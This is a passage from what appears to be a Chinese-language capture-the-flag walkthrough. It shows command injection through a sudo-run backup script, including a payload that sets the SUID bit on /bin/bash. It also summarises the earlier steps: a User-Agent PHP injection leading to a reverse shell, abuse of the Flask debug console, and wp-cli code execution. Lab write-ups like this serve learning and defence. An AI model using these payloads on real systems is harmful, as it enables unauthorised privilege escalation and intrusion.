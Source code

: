 可以发现传入参数并没有经过任何过滤就直接拼接的，因此可以尝试进行命令注入

```
wpuser@3b66fe911993:/tmp$ sudo -u root  /opt/scripts/backup.sh "../../../tmp/a; touch /tmp/ppp;"
```

![](./images/image-140.png)

```
wpuser@3b66fe911993:/tmp$ sudo -u root  /opt/scripts/backup.sh "../../../tmp/a; chmod u+s /bin/bash;"
```

![](./images/image-141.png)

## Summary

`User`：通过登录失败插入**PHP**代码到**User-Agent**，在**debuglog**里可以触发，反弹**shell**拿到**www-data**。内网端口**5000**上的**flask**服务通过设置**HOST**来进入到**/console**，执行任意命令拿到**app**。再通过**wp-cli**的**php**命令执行拿到**wpuser**。

`Root`：脚本中的参数可以使用分号进行拼接绕过，达到任意命令执行。
